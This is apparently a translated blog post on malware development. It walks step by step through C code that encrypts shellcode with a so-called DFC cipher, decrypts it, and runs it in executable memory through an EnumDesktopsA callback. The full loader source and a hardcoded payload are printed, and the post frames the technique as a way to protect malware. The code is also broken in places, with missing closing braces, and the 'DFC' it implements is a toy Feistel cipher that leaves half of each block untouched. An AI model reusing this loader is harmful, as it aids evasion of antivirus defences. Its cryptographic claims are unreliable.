








\newpage
\subsection{恶意软件与密码学研究（第 6 部分，第 34 篇）：通过 DFC 算法加密载荷（简单的 C 示例）}

﷽

{width="80%"}

在我于卢森堡的一场会议上做演讲和工作坊、谈及密码学函数在 Windows 操作系统内部结构中被滥用的之后，许多同事和读者越来越关心如何在恶意软件开发过程中使用密码学来保护恶意软件。

这篇文章是我自己研究如何将 DFC（Decorrelated Fast Cipher，去相关快速密码）用于恶意软件开发的成果。和往常一样，在探索各种密码学算法时，我决定看看把它用于载荷的加密/解密会有什么效果。

### DFC

去相关快速密码（DFC）由法国高等师范学校（École Normale Supérieure）、法国国家科学研究中心（CNRS）和法国电信（France Telecom）的密码学家们于 1998 年在 Serge Vaudenay 的带领下开发。DFC 是作为高级加密标准（AES）竞赛的候选算法而设计的，它是一种对称分组密码，采用 8 轮 Feistel 网络和 128 位分组。尽管最终没有被选为 AES 标准，DFC 依然对密码学研究做出了贡献，尤其是 PEANUT 密码族方面。

去相关快速密码（DFC）基于 8 轮 Feistel 网络，每一轮处理一个 128 位分组，分组被分成两个 64 位半部分。DFC 使用密钥编排从最长可达 256 位的可变长度密钥中生成 8 个互不相同的轮密钥，不过它通常以 128 位密钥实现。每一轮都对分的一半应用特定的加密函数，把它与另一半组合，然后交换两半——这是经典的 Feistel 结构，只需逆序使用密钥序列即可完成简单的解密。

DFC 的架构力求提供对差分密码分析和线性密码分析都足够强的安全性，它的一个显著特点是使用了去相关理论——通过削弱加密数据内部的统计关联来抵御现代密码攻击。每一轮的加密函数使用一对由主密钥派生出的 64 位子密钥，这使得该密码既适合硬件实现也适合软件实现。

虽然 DFC 最终没有被选为 AES 标准，但它提出了抵抗基于去相关攻击的新思路，强调了对称分组密码应当具备强健的安全特性。如今 DFC 已经是更大的 PEANUT 家族（Pretty Encryption Algorithm with n-Universal Transformation）的一员，这个家族以使用独特的数学变换来提升抗密码分析能力而著称。

### 实战示例

我们来动手实现。我把实现过程一步步拆开来说明，以便理解基于 DFC 的加密和解密函数应当如何编写，重点放在载荷的加密上。这样你就能理解代码的每个部分，以及它们各自如何为 DFC 密码的功能做出贡献。

首先定义常量和密钥变量：

```cpp
#define ROUNDS 8
#define BLOCK_SIZE 16
```

接下来我们需要生成密钥调度表。  
密钥调度函数基于原始加密密钥生成八个 128 位轮密钥。这些轮密钥在每一轮 Feistel 运算中用于对数据块的每一半执行操作：

```cpp
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
  for (int j = 0; j < 16; j++) {
  K[i][j] = key[j] ^ (i + j);
  }
  }

```

接下来是密钥编排的生成。

密钥编排函数基于原始加密密钥生成八个 128 位轮密钥。这些轮密钥用于 Feistel 的每一轮，对数据分组的每一半执行运算：

```cpp
// DFC G function applies Feistel structure in each round
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempRight = *right;
  *right = *left ^ F(*right, *(uint32_t*)roundKey);
  *left = tempRight;

```

轮密钥的派生方式是把主密钥的每个字节与轮索引和字节索引之和异或。

```cpp
// function F for DFC round (simplified for illustration)
uint32_t F(uint32_t left, uint32_t key_part) {
  return rotl(left + key_part, 3) ^ key_part;

```

下一个是 Feistel 轮函数的实现。在 DFC 中，每一轮都遵循 Feistel 结构：

F 是 Feistel 结构的核心函数。在我的实现中，它把一半数据与密钥材料混合起来：

这里的 `left` 参数通常是数据分组的左半部分，而 `key_part` 则是本轮密钥的一部分。

这个函数的主要逻辑很简单：

左输入（数据分组的一半）与 `key_part` 相加。相加的结果再向左循环移位 3 位（`rotl(..., 3)`），这一步引入了扩散性。最后，移位的结果与 `key_part` 异或。异或运算引入了密钥相关的变化，使相同的输入不会产生相同的输出。

接下来我们需要的是分组加密逻辑。

`dfc_encrypt` 函数以 Feistel 结构的方式执行加密：

```cpp
// DFC encryption function
void dfc_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
  G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;

```

该函数从输入分组初始化 `left` 和 `right`，然后在每一轮中调用 G 函数，最后交换两半完成加密。

解密函数 `dfc_decrypt` 与加密过程完全对称，只是轮密钥按相反顺序使用：

```cpp
// DFC decryption function
void dfc_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
  G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;

```

和往常一样，`dfc_encrypt_shellcode` 通过按分组处理 shellcode 来准备加密：

```cpp
// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  dfc_encrypt(ptr, key);
  ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = { 0x90 };
  memcpy(pad, ptr, remaining);
  dfc_encrypt((uint32_t*)pad, key);
  memcpy(ptr, pad, remaining);
  }

```

该函数先调用 `key_schedule` 初始化轮密钥，然后按 128 位分组逐块加密 shellcode；如果还有剩余字节不足以凑满一个分组，就用 0x90（NOP）填充后再加密。

接下来是解密逻辑：

```cpp
// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  dfc_decrypt(ptr, key);
  ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = { 0x90 };
  memcpy(pad, ptr, remaining);
  dfc_decrypt((uint32_t*)pad, key);
  memcpy(ptr, pad, remaining);
  }

```

最后，把所有部分在 main 函数中组合起来：

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + 
  (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;

```

同样地，一些打印逻辑只是用来检查逻辑的正确性，并通过 `EnumDesktopsA` 运行载荷。

完整源码 `hack.c`：

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via DFC (Decorrelated Fast Cipher) algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/10/malware-cryptography-34.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8  // DFC uses 8 rounds of encryption
#define BLOCK_SIZE 16  // DFC operates on 128-bit (16-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][16];

// rotate left function
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));

// function F for DFC round (simplified for illustration)
uint32_t F(uint32_t left, uint32_t key_part) {
  return rotl(left + key_part, 3) ^ key_part;

// DFC G function applies Feistel structure in each round
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempRight = *right;
  *right = *left ^ F(*right, *(uint32_t*)roundKey);
  *left = tempRight;

// key schedule for DFC
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
  for (int j = 0; j < 16; j++) {
  K[i][j] = key[j % 8] ^ (i + j);  // generate subkey for each round
  }
  }

// DFC encryption function
void dfc_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
  G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;

// DFC decryption function
void dfc_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
  G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;

// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  dfc_encrypt(ptr, key);
  ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = { 0x90 };
  memcpy(pad, ptr, remaining);
  dfc_encrypt((uint32_t*)pad, key);
  memcpy(ptr, pad, remaining);
  }

// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  dfc_decrypt(ptr, key);
  ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = { 0x90 };
  memcpy(pad, ptr, remaining);
  dfc_decrypt((uint32_t*)pad, key);
  memcpy(ptr, pad, remaining);
  }

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + 
  (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;

```

As usual some printing logic is just for checking correctness of logic and running payload via [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html).

### 演示

我们来看看实际效果。先编译它（在我的 Linux 机器上）：

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
